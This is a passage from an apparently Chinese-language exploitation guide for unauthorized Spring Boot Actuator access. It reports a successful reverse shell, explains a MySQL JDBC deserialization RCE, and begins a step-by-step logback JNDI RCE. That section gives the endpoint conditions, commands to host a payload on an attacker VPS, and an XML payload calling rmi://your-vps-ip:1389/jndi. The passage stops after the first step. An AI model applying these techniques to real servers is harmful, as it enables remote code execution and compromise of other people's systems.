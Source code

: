 

shell反弹成功

![image-20210901145716430](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210901145716430.png)



##### 利用原理

- spring.datasource.url 属性被设置为外部恶意 mysql jdbc url 地址
- refresh 刷新后设置了一个新的 spring.datasource.url 属性值
- 当网站进行数据库查询等操作时，会尝试使用恶意 mysql jdbc url 建立新的数据库连接
- 然后恶意 mysql server 就会在建立连接的合适阶段返回反序列化 payload 数据
- 目标依赖的 mysql-connector-java 就会反序列化设置好的 gadget，造成 RCE 漏洞

详细漏洞分析参见下文

​	[New-Exploit-Technique-In-Java-Deserialization-Attack](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf)

  [  MySQL-JDBC 反序列化 | CN-SEC 中文网](http://cn-sec.com/archives/116934.html)



#### 2.10.  restart logging.config logback JNDI RCE

##### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 xml 语法内容的文件，会导致程序异常退出
- ⚠️ JNDI 服务返回的 object 需要实现 `javax.naming.spi.ObjectFactory` 接口，否则会导致程序异常退出



##### 利用方法

**步骤一：托管 xml 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `xml` 结尾的  `example.xml` 文件，实际内容要根据步骤二中使用的 JNDI 服务来确定：

```xml
<configuration>
  <insertFromJNDI env-entry-name="rmi://your-vps-ip:1389/jndi" as="appName" />
</configuration>
```

